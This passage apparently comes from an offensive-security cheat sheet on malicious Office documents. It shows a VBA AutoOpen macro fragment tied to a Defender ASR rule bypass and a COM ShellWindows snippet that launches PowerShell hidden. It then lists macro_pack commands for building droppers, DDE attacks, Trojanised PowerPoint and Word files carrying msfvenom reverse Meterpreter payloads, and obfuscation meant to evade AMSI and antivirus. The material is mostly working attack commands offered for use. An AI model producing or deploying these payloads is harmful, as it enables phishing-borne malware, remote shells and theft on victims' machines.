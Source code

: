 ```ps1
End Sub

Sub AutoOpen()
    ASR_bypass_create_child_process_rule5
End Sub
```

```ps1
Const ShellWindows = "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}"
Set SW = GetObject("new:" & ShellWindows).Item()
SW.Document.Application.ShellExecute "cmd.exe", "/c powershell.exe", "C:\Windows\System32", Null, 0
```

## DOCM/XLM - Macro Pack - Macro and DDE

> Only the community version is available online.

* git clone https://github.com/sevagas/macro_pack
* https://github.com/sevagas/macro_pack/releases/download/v2.0.1/macro_pack.exe

```powershell
# Options
-G, --generate=OUTPUT_FILE_PATH. Generates a file. 
-t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
-o, --obfuscate Obfuscate code (remove spaces, obfuscate strings, obfuscate functions and variables name)

# Execute a command
echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl

# Download and execute a file
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls

# Meterpreter reverse TCP template using MacroMeter by Cn33liz
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm

# Drop and execute embedded file
macro_pack.exe -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs

# Obfuscate the vba file generated by msfvenom and put result in a new vba file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager vba file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx

# Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xsl

# PRO: Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV).
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm

# PRO: Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass AMSI and most antiviruses.
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --trojan -G  hotpics.pptm
```